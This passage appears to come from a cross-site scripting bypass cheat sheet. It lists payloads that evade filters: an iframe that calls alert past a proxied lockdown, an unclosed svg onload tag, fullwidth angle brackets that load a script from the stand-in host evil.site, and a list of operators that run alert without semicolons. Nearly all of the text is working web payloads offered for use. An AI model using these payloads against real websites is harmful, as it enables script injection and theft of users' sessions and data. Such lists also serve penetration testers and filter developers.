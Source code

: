 ```javascript
```

Bypass using an alternate way to trigger an alert

```javascript
var i = document.createElement("iframe");
i.onload = function(){
  i.contentWindow.alert(1);
}
document.appendChild(i);

// Bypassed security
XSSObject.proxy = function (obj, name, report_function_name, exec_original) {
      var proxy = obj[name];
      obj[name] = function () {
        if (exec_original) {
          return proxy.apply(this, arguments);
        }
      };
      XSSObject.lockdown(obj, name);
  };
XSSObject.proxy(window, 'alert', 'window.alert', false);
```

### Bypass ">" using nothing

You don't need to close your tags.

```javascript
<svg onload=alert(1)//
```

### Bypass "<" and ">" using ＜ and ＞

Unicode Character U+FF1C and U+FF1E

```javascript
＜script/src=//evil.site/poc.js＞
```

### Bypass ";" using another character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```
